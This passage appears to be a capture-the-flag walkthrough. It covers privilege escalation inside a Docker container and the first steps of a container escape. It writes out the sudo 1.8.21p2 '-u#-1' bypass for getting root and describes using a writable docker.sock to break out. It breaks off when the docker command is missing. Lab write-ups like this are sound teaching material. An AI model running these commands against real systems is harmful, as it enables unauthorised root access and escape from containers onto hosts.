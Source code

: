 So this is a docker container. We can tell because we have a .dockerenv file and also there is only 1 user in the /home directory. We can't be on a seperate machine as we SSHed into localhost so it must be a container.

Now we need to escalate in this container so we can break out of it.

Running sudo -l shows us that everyone but root can run /bin/bash as sudo. This is not a normal sudoers entry so this implies it could be relevant

Sudo has a large amount of vulnerabilities over it's versions. This means we could potentially have a vulnerable sudo version. 

```
sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

A quick google leads us to [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502) which shows us a lovely sudo exploit

```
sudo -u#-1 /bin/bash
cd /root
cat user.txt
```
Now we have root on the container. Now we need to break out.



## Container escape

Being root gives us some options for container escape. A good place to look is always docker.sock as if we have write permissions for it we can use that as a method of escape!

`find / -name docker.sock`

We have a docker.sock file, let's have a look at it
```
ls -la /run/docker.sock
```

This is very good for us. We can write to the docker sock. This means we can escape using a simple command or two.

Note: This is a very good guide by hacktricks, highly recommend. [Docker Escape Guide](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)

First we need to find out what this image is called using

```
docker images
bash: docker: command not found
```

Oh. That's not ideal. So we don't have the docker command. Let's check the path
